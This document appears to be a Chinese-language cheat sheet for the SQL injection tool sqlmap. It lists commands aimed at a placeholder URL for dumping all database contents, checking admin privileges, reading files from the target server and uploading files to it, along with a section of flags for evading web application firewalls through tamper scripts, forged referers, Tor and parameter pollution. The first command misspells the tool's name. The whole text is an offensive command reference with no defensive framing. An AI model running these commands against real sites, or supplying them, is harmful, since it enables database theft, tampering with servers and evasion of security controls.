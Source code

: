 ```
sqlap -u "http://url/news?id=1" --dbs -o"sqlmap.log" --resume
```
加载脚本：
```
sqlmap -u "http://url/news?id=1" --tamper "base64encode.py"
```
指定注入参数：
```
sqlmap -u "http://url/news?id=1" -p id
```
爆出该数据库中的所有数据：
```
sqlmap -u "http://url/news?id=1" --dump-all
```
指定代理：
```
sqlmap -u "http://url/news?id=1" --proxy="http://127.0.0.1:8080"
```
爆破 HTTPS 网站：
```
sqlmap -u "http://url/news?id=1" --delay=3 --force-ssl
```
判断当前用户是否有管理员权限：
```
sqlmap -u "http://url/news?id=1" --is-dba
```
检测是否有 WAF：
```
sqlmap -u "http://url/news?id=1" --identify-waf
```
读取目标服务器文件：
```
sqlmap -u "http://url/news?id=1" --file-read "c:/test.txt"
```
上传文件到目标服务器：
```
sqlmap -u "http://url/news?id=1" --file-write test.txt --file-dest "e:/hack.txt"
```

## 过 WAF 手法
**sqlmap -u "http://url/news?id=1"**  
`--random-agent` (使用任意的 User-Agent 爆破)  
`-v3` (输出详细度)  
`--threads 5` (指定线程数)  
`--fresh-queries` (清除缓存)  
`--flush-session` (清空会话)  
`--batch` (默认交互)  
`--random-agent` (任意的 http 头)  
`--tamper "base64encode.py"` (对提交的数据进行 base64 编码)  
`--referer http://www.baidu.com` (伪造 referer 字段)  
`--random-agent` (使用任意 HTTP 头进行绕过)  
`--time-sec=3` (使用长的延时来避免触发 WAF 的机制)  
`--hpp` (使用 HTTP 参数污染进行绕过)  
`--proxy=http://127.0.0.1:7890` (使用代理进行绕过)  
`--ignore-proxy` (禁止使用系统的代理)  
`--flush-session` (清空会话)  
`--hex 或 --no-cast` (进行字符码转换)  
`--mobile` (对移动端的服务器进行注入)  
`--tor` (匿名注入)  

